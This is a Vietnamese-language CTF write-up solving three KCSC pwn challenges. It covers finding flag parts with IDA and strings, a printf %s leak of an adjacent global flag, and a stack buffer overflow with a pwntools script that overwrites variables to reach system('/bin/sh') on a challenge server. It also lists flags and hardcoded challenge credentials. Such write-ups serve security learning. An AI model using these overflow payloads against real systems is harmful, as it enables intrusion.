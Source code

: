 # PWN

## Treasure

Run file ta nhận được part1 của flag: `KCSC{`

![image](https://user-images.githubusercontent.com/80137840/213178223-9ba4837b-edbb-435a-a418-e6d451c3ea86.png)

Tại main trong IDA ta thấy part2 của flag: `4_t1ny_tr34sur3`

![image](https://user-images.githubusercontent.com/80137840/213178483-e865b1d6-1ec8-4f02-a883-7b1f98ebd97b.png)

Mở tab strings view, search với keyword Part 3 ta được part3 flag: `_27651d2df78e1998}`

![image](https://user-images.githubusercontent.com/80137840/213179314-f3755ca1-4498-4330-a1f0-080299810318.png)

Flag: `KCSC{4_t1ny_tr34sur3_27651d2df78e1998}`


## Cat

Dùng IDA để xem cách hoạt động chương trình

![image](https://user-images.githubusercontent.com/80137840/213331387-e5c2f55f-56e7-4e77-be2b-a48b4741b90b.png)

Ta thấy chương trình đọc file flag.txt vào biến flag và nhập Username:Password. Login thành công thì ta được nhập 0x200 bytes vào secret và in ra nó bằng printf.

printf sẽ in cho đến khi gặp byte null + secret lại nằm trên flag cách nhau 0x200

![image](https://user-images.githubusercontent.com/80137840/213331885-87f651cf-6b88-4dd8-8d47-efb848f71c29.png)

Chương trình đọc vào một secret vào biến secret là biến toàn cục lưu ngay trước flag, nếu ta nhập chuỗi 512bytes thì khi printf sử dụng %s sẽ in chuỗi đến khi gặp ký tự null và in ra chuỗi secret + flag.

Ta tìm được Username và Password là KCSC_4dm1n1str4t0r : wh3r3_1s_th3_fl4g

![image](https://user-images.githubusercontent.com/80137840/213333073-a48e8d4e-3714-4596-9f51-c86459c244ab.png)

**Exploit**

![image](https://user-images.githubusercontent.com/80137840/213333368-1d635812-f8eb-4d54-b29a-06ed3adfe8f9.png)

Flag: `KCSC{w3ll_d0n3_y0u_g0t_my_s3cr3t_n0w_d04942f299}`



## OverTheWrite

Xem chương trình bằng IDA

![image](https://user-images.githubusercontent.com/80137840/213335433-9a10c134-53fb-4161-bea2-e47bcc1a3d0f.png)

Dễ thấy bug là buffer overflow khi buf có 32 bytes (int_64 * 4) nhưng lại được nhập 0x50 bytes

Dựa theo chú thích của IDA ta thấy buf cách s1 0x20 bytes, s1 cách v7 0x18 bytes, v7 cách v8 8 bytes và v9 cách v8 0xc bytes

Ta sẽ overflow buf để control các biến s1, v7, v8, v9 và thực thi system("/bin/sh")

Stack khi run chương trình: 

![image](https://user-images.githubusercontent.com/80137840/213343263-c3a01759-de58-4ff0-9e53-078bac710270.png)

**Exploit**: Đầu tiên là buff[4] gồm 32 bytes, kế đến là s1 được thêm /0 vào đuôi tổng 16 bytes. Tiếp theo lần lượt là v6, v7, v8 cuối cùng là v9 là đủ 80 bytes.

v9 có thể p64(v9) hoặc b"A"*4 + p32(v9), do v9 chỉ có 4bytes nên ta phải thêm mấy bytes vào trước cho nó đầy.

Code solve chall:
```
from pwn import *

r = remote('146.190.115.228', 9992)
payload = b'A'*(32) + b'Welcome to KCSC'.ljust(16, b'\x00') + b'A'*8 + p64(0x215241104735F10F) + p64(0xDEADBEEFCAFEBABE) + b'AAAA' + p32(0x13371337)
print(r.recvuntil(b"Key: "))
r.send(payload)
r.interactive()
```

![image](https://user-images.githubusercontent.com/80137840/213342654-37322b98-bc6a-40c6-b3ea-bba1abc657b1.png)

Flag: `KCSC{y0ur_wr1t3_g4v3_y0u_th1s_fl4g_afc4185ea6}`
